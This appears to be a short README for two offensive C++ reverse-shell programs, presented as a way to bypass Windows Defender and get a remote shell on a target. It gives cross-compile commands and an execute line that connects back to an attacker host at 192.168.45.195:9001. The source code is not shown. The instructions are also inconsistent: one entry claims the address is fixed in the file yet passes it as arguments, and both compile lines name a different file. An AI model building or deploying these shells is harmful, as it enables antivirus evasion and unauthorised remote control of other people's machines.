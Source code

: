 ## revshell.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.
*Note: The IP and PORT need to be specified statically in the file before compilation*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`

## revshell2.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.
*Note: The executable takes IP and PORT as arguments*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`
